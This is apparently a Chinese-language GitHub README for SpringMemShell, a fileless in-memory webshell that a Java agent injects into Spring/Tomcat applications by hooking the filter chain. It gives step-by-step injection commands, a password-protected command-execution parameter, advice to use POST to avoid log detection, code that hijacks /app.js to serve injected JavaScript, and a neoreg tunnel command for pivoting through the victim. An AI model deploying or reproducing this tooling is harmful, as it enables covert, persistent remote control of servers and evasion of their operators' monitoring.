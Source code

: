 # SpringMemShell

由于本人是条懒狗，具体的使用说明请以`/?password=stdout&model=help`为准。（主要是我改了代码之后不想动前面的markdown。。。）



## 原理

和`tomcat`内存马的原理类似，也是劫持了一个`filter`，这里修改的是`org.apache.catalina.core.ApplicationFilterChain$internalDoFilter` <br/>





## 使用步骤

>   至少应该先访问一次，确保`org.apache.catalina.core.ApplicationFilterChain`被加载

1.  将三个jar包放入靶机中，这里使用了`vulhub/spring/CVE-2018-1273`作为例子

    ![image-20210317142736836](https://gitee.com/ethustdout/pics/raw/master/uPic/image-20210317142736836-20210409143828374.png)

2.  找到目标进程的pid（在docker中的pid通常为1）

    

3.  执行`java -jar javaAgent.jar [pid] "./mem.jar"`命令

    ![image-20210317143338934](https://gitee.com/ethustdout/pics/raw/master/uPic/image-20210317143338934-20210409143829176.png)

4.  注入成功，访问任意路由（不存在的也行） 加上参数`?password=stdout&model=exec&cmd=[command]`即可

    <font color='red'>get请求容易被日志记录下来，采用post请求相对来说不容易被发现</font>

    查看一下注入之后的`/proc/self/maps`

    ![image-20210317143739861](https://gitee.com/ethustdout/pics/raw/master/uPic/image-20210317143739861-20210409143830039.png)

    可以看到两个jar包进入了内存



## 效果

注入内存马之前

![image-20210317143205942](https://gitee.com/ethustdout/pics/raw/master/uPic/image-20210317143205942-20210409143831820.png)



注入之后

![image-20210317143804052](https://gitee.com/ethustdout/pics/raw/master/uPic/image-20210317143804052-20210409143833243.png)



由于是在`filter`层处理了用户请求，即使路由没有定义，也没有关系。



## 新功能+1

应hzgg的要求，加入新功能：静态页面劫持

本想着新建一条路由（在`Controller`层）去做，但是由于Spring的MVC结构，在没有`templates`的情况下不能直接渲染页面。而后听从建议，在`Filter`层就做好。

关键源代码如下

```java
String uri = request.getRequestURI();
if (uri.equals("/app.js")) {
    result += com.shiroha.springMem.SpringMemModels.readSource("1.js");
    response.getWriter().write(result);
    return;
}
```

当访问目标的`/app.js`的时候，在`filter`层就会被响应，返回`1.js`的内容。

```javascript
// 1.js
alert(1);
```



示例效果：

![image-20210323160138849](https://gitee.com/ethustdout/pics/raw/master/uPic/image-20210323160138849-20210409143833905.png)





## 新功能+2

需求增加：“既然你加载了这个agent，那要把卸载也做好啊”。

由于Java agent是注入到内存，并且修改了class，完全移除只有重启jar包这个方法（当然，也可能是我才疏学浅）。因此我想的解决方案是还原改写的方法。但是由于`javassist`编译的特殊性，完全还原是太不能做得到的。所以我换了个注入的函数`doFilter`，这个函数内容简单，还原方便，简直是不二选择。



效果演示

注入内存马之后：

![image-20210324181759730](https://gitee.com/ethustdout/pics/raw/master/uPic/image-20210324181759730-20210409143835147.png)

使用`?password=stdout&model=exit`，暂时解除修改的数据。

![image-20210324181912659](https://gitee.com/ethustdout/pics/raw/master/uPic/image-20210324181912659-20210409143835558.png)

再次执行命令就会失败：

![image-20210324181940085](https://gitee.com/ethustdout/pics/raw/master/uPic/image-20210324181940085-20210409143835909.png)

使用`?restart=restart`再次启用修改：

![image-20210324182015489](https://gitee.com/ethustdout/pics/raw/master/uPic/image-20210324182015489-20210409143836215.png)

再次可以执行命令：

![image-20210324182126043](https://gitee.com/ethustdout/pics/raw/master/uPic/image-20210324182126043-20210409143836484.png)

<font color='red'>这期间不会影响到业务。</font>



## 新功能+3

增加了regeorg 代理，由于最新的regeorg使用了变形base64加密，所有的字段名和值都发生了变化，导致换密码很麻烦——需要把tunnel.jsp的代码分别复制到B64类和SpringProxy类中，相信聪明的你一定会改。

我的密码是stdout。

之后可能会去研究一下变种的过程，搞一个自动一点的出来。

使用`python3 neoreg.py --url "http://target/?password=stdout&model=proxy" -k "stdout"`即可。

效果示例：

![image-20210412134149838](https://gitee.com/ethustdout/pics/raw/master/uPic/image-20210412134149838.png)

![image-20210412141215288](https://gitee.com/ethustdout/pics/raw/master/uPic/image-20210412141215288.png)

